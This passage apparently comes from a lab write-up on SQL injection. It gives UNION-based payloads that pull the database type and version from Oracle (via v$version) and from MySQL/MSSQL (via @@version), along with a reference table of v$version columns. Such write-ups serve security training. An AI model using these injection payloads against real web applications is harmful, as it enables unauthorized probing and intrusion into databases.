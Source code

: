 ```sql
' UNION SELECT banner, NULL FROM v$version ORDER BY 2--
```

<br/>

<br/>

**More information about v$version in Oracle:**

`**v$version**` displays the version number of Oracle Database. The database components have the same version number as the database, so the version number is returned only once.

 | Column | Datatype | Description | 
 | ---- | ---- | ---- | 
 | BANNER | VARCHAR2(80) | Component name and version number | 
 | BANNER_FULL | VARCHAR2(160) | The newline banner format introduced in Oracle Database 18c. The banner displays the database release and version number. | 
 | BANNER_LEGACY | VARCHAR2(80) | The legacy 1 line banner used before Oracle Database 18c. This column displays the same value as the BANNER column | 
 | CON_ID | NUMBER | The ID of the container to which the data pertains. Possible values include:
0: This value is used for rows containing data that pertain to the entire CDB. This value is also used for rows in non-CDBs.
1: This value is used for rows containing data that pertain to only the root
n: Where n is the applicable container ID for the rows containing data | 

<br/>

### Lab: Querying database type and version (MySQL and MSSQL)

<br/>

Similar to Oracle Database, however, it does not require to `**SELECT**`** **from any specific table and the comments are `##` instead of `--`. 

![68f02330_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/7b97dd8c-14af-45a9-a7db-9fa645323b4d)

**SQL Query Injection for MySQL and MSSQL**


```sql
' UNION SELECT @@version##
```

- Output of query via Burp Suite

<br/>

![86764dd1_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/930b41d6-7ddd-4f7b-be98-4b92c18f3234)

- Output of query via the web application

<br/>

**Query Injected:**


```sql
' UNION SELECT @@version,NULL##
```
